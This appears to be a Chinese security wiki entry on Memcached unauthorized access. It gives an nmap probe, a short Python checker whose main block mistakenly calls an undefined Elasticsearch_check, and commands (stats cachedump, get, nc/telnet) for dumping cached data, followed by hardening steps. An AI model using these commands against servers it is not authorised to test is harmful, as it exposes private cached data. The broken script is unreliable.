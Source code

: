 ```yaml
---
title: "Memcache未授权访问"
id: zhfly3015
---
```


# Memcache未授权访问

## 一、漏洞简介

> memcached是一套分布式的高速缓存系统。它以Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

## 二、影响范围

## 三、复现过程

#### 1.扫描探测

```
nmap -sV -p 11211 --script memcached-info 0.0.0.0 
```

![image](../img/7aa812cfbceb4199c38b706f39e8fdb0.png)

```
##! /usr/bin/env python
## _*_  coding:utf-8 _*_
def Memcache_check(ip, port=11211, timeout=5):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("stats\r\n")
        result = s.recv(1024)
        if "STAT version" in result:
            print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
    except Exception, e:
        pass
if __name__ == '__main__':
    Elasticsearch_check("127.0.0.1") 
```

#### 2.攻击利用

##### 2.1 基础部分

通过一个cheat sheet了解一下Memcached的协议。Memcached的语法由如下元素组成

*   {COMMAND}0x20{ARGUMENT}(LF|CRLF)

command字段有如下几条命令

*   存储操作(set, add, replace, append, prepend, cas)
*   检索操作 (get, gets)
*   删除操作 (delete)
*   增减操作 (incr, decr)
*   touch
*   slabs reassign
*   slabs automove
*   lru_crawler
*   统计操作(stats items, slabs, cachedump)
*   其他操作 (version, flush_all, quit)

| Command | 描述 | 实例 |
| --- | --- | --- |
| get | 读某个值 | get mykey |
| set | 强制设置某个键值 | set mykey 0 60 5 |
| add | 添加新键值对 | add newkey 0 60 5 |
| replace | 覆盖已经存在的key | replace key 0 60 5 |
| flush_all | 让所有条目失效 | flush_all |
| stats | 打印当前状态 | stats |
| stats malloc | 打印内存状态 | stats malloc |

version | 打印Memcached版本 | version

```
stats  //查看memcache 服务状态
stats items  //查看所有items
stats cachedump 32 0  //获得缓存key
get :state:264861539228401373:261588   //通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露 
```

#### 2.2 建立连接并获取信息

telnet 11211，或 nc -vv 11211，无需用户名密码，可以直接连接memcache 服务的11211端口。

![image](../img/b211b7e748c0dc06385cd5b03f97a3f5.png)
附赠大佬写的文章 [Discuz!因Memcached未授权访问导致的RCE](https://xz.aliyun.com/t/2018)

#### 3.防范措施

##### 1.限制访问

如果memcache没有对外访问的必要，可在memcached启动的时候指定绑定的ip地址为 127.0.0.1。其中 -l 参数指定为本机地址。例如：
memcached -d -m 1024 -u root -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

或者 vim /etc/sysconfig/memcached，修改配置文件
OPTIONS="-l 127.0.0.1"，只能本机访问，不对公网开放，保存退出 /etc/init.d/memcached reload

##### 2.防火墙

```
// accept
## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 11211 -j ACCEPT
## iptables -A INPUT -p udp -s 127.0.0.1 --dport 11211 -j ACCEPT

// drop

## iptables -I INPUT -p tcp --dport 11211 -j DROP

## iptables -I INPUT -p udp --dport 11211 -j DROP

// 保存规则并重启 iptables

## service iptables save

## service iptables restart 
```

##### 3.使用最小化权限账号运行Memcached服务

使用普通权限账号运行，指定Memcached用户。

```
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid 
```

##### 4.启用认证功能

Memcached本身没有做验证访问模块,Memcached从1.4.3版本开始，能支持SASL认证。[SASL认证详细配置手册](http://www.postfix.org/SASL_README.html?spm=a2c4g.11186623.2.5.RpKdcX##saslauthd)

##### 5.修改默认端口

修改默认11211监听端口为11222端口。在Linux环境中运行以下命令：

```
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid 
```

##### 6.定期升级

参考:

*   http://lzone.de/cheat-sheet/memcached
*   https://www.secpulse.com/archives/49659.html
*   https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/
*   https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf
*   http://niiconsulting.com/checkmate/2013/05/memcache-exploit/
*   https://xz.aliyun.com/t/2018
*   http://drops.xmd5.com/static/drops/web-8987.html
*   https://blog.csdn.net/microzone/article/details/79262549